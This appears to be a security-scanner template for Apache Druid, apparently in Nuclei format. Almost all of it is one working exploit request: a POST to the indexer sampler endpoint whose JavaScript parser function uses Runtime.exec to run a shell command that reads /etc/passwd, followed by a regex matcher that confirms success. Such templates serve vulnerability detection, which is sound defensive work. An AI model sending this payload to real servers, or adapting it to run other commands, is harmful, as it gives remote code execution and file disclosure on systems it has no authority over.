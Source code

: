 ### Step - 1

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{
"type":"index",
"spec":{
   "ioConfig":{
      "type":"index",
      "firehose":{
         "type":"local",
         "baseDir":"/etc",
         "filter":"passwd"
      }
   },
   "dataSchema":{
      "dataSource":"odgjxrrrePz",
      "parser":{
         "parseSpec":{
            "format":"javascript",
            "timestampSpec":{

            },
            "dimensionsSpec":{

            },
            "function":"function(){var hTVCCerYZ = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(\"/bin/sh`@~-c`@~cat /etc/passwd\".split(\"`@~\")).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:\"4137368\",OQtGXcxBVQVL: hTVCCerYZ}}",
            "":{
               "enabled":"true"
            }
         }
      }
   }
},
"samplerConfig":{
   "numRows":10
}
}

```

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:
